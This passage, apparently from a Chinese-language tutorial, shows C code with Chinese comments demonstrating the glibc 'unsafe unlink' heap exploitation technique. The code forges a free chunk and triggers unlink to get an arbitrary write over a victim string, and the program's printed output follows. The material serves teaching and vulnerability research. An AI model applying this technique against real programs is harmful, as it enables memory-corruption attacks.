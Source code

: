 ```
        fprintf(stderr, "If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: %pn",(void*)chunk1_hdr[0]);

        //我们通过将chunk1的pre_size设置为false,就可以将我们所伪造的chunk标记为free状态
        fprintf(stderr, "We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.nn");
        chunk1_hdr[1] &amp;= ~1;

        //现在我们free chunk1,这时发生向后合并将会unlink我们所伪造的chunk,从而覆写chunk0_ptr
        fprintf(stderr, "Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.n");
        fprintf(stderr, "You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344nn");
        free(chunk1_ptr);

        //在这个指针上,我们可以通过chunk0_ptr来覆写其自身以指向任意内存
        fprintf(stderr, "At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.n");
        char victim_string[8];
        strcpy(victim_string,"Hello!~");
        chunk0_ptr[3] = (uint64_t) victim_string;

        //chunk0_ptr如今指向了我们想要的地方,我们可以用它来写我们的字符串了
        fprintf(stderr, "chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.n");
        fprintf(stderr, "Original value: %sn",victim_string);
        chunk0_ptr[0] = 0x4141414142424242LL;
        fprintf(stderr, "New Value: %sn",victim_string);
}
```

### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E8%BF%90%E8%A1%8C%E7%BB%93%E6%9E%9C"></a>程序运行结果

```
The global chunk0_ptr is at 0x602070, pointing to 0x255b010
The victim chunk we are going to corrupt is at 0x255b0a0

We create a fake chunk inside chunk0.
We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &amp;chunk0_ptr so that P-&gt;fd-&gt;bk = P.
We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &amp;chunk0_ptr so that P-&gt;bk-&gt;fd = P.
With this setup we can pass this check: (P-&gt;fd-&gt;bk != P || P-&gt;bk-&gt;fd != P) == False
Fake chunk fd: 0x602058
Fake chunk bk: 0x602060

We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.
We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.
It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly
If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: 0x80
We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.

Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.


At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.
chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.
Original value: Hello!~
```